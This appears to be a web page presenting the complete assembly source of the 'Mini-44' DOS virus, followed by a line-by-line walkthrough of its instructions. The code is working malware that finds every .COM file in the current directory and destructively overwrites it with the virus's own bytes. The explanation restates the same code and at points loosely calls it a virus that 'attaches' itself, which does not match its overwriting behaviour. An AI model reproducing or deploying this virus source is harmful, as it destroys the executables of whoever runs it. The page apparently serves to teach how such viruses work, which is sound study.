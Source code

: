 # Mini-44 DOS Virus

## Source Code
```
;44 byte virus, destructively overwrites all the COM files in the
;current directory.
;
;(C) 1994 American Eagle Publications, Inc.

.model small
.code

FNAME   EQU     9EH             ;search-function file name result

ORG     100H

START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H

SEARCH_LP:
        jc      DONE
        mov     ax,3D01H        ;open file we found
        mov     dx,FNAME
        int     21H

        xchg    ax,bx           ;write virus to file
        mov     ah,40H
        mov     cl,42           ;size of this virus
        mov     dx,100H         ;location of this virus
        int     21H

        mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next file
        int     21H
        jmp     SEARCH_LP

DONE:
        ret                     ;exit to DOS

COM_FILE DB      '*.COM',0      ;string for COM file search

END START
```
## Analyze

### Setup and Initial Search:
* .model small: This directive tells the assembler to use the small memory model, which is common in DOS where the code and data segments are expected to fit within a single 64KB segment.
* FNAME EQU 9EH: This sets the label FNAME to the hexadecimal value 9EH, which is used as an offset for where the file name is stored in memory after a file search.
* ORG 100H: This sets the code's origin to address 0100H, a common practice for DOS .COM programs, as the first 256 bytes are reserved for the Program Segment Prefix (PSP).

### File Search and Opening:
* The program begins by searching for .COM files using DOS interrupt 21H with function 4EH (find first file).
* The file name pattern *.COM is used for the search.
* If a file is found, the program then opens it using function 3D01H (open file for writing).

### Modifying the File:
* The program appears to write 42 bytes (CL = 42) of data from its own code (DS:0100H) into the beginning of the found file. This is typically characteristic of a computer virus that replicates by attaching itself to other executable files.
* After writing, it closes the file using function 3EH (close file handle).

### Continuing the Search:
* The program then searches for the next .COM file using function 4FH.
* If another file is found, the loop continues; otherwise, the program exits.

### Termination:
* The program ends with a ret instruction, returning control to DOS.

## Details

### Initial Setup
```
.model small
```
* This tells the assembler to use a small memory model, suitable for DOS programs where both code and data segments are combined and should not exceed 64KB.

```
FNAME   EQU     9EH             ;search-function file name result
```
* FNAME is defined as a constant with the value 9EH. This is used as an offset in the Program Segment Prefix (PSP) where DOS stores the filename of the last file found.

```
ORG     100H
```
* Sets the origin of the code to memory address 0100H. DOS .COM programs start at this offset, following the 256-byte PSP.

### File Search and Opening
```
START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H
```
* Sets up a call to DOS interrupt 21H with function 4EH (find first file matching a pattern). The pattern *.COM is provided by the address in DX.

```
SEARCH_LP:
        jc      DONE            ;jump to DONE if no file is found
        mov     ax,3D01H        ;open file for writing
        mov     dx,FNAME
        int     21H
```
* If a file is found, this part tries to open it for writing. 3D01H in AX is the DOS function to open a file. The filename is pointed to by DX.

### Writing to the File
```
        xchg    ax,bx           ;swap file handle to BX
        mov     ah,40H          ;prepare to write to the file
        mov     cl,42           ;size of data to write
        mov     dx,100H         ;data location (start of the program)
        int     21H
```
* After opening the file, it writes 42 bytes from the beginning of the program (DS:0100H) to the file. This is typical of a virus that replicates by inserting its code into other executables.

### Closing the File and Searching for the Next File
```
        mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next .COM file
        int     21H
        jmp     SEARCH_LP
```
* Closes the current file and searches for the next .COM file. If another file is found, the process repeats.

### Termination
```
DONE:
        ret                     ;exit to DOS
```
* Once no more files are found, the program exits and returns control to DOS.

### COM File Pattern
```
COM_FILE DB      '*.COM',0      ;string for COM file search
```
* This is the data definition for the file search pattern, *.COM, used by the program.
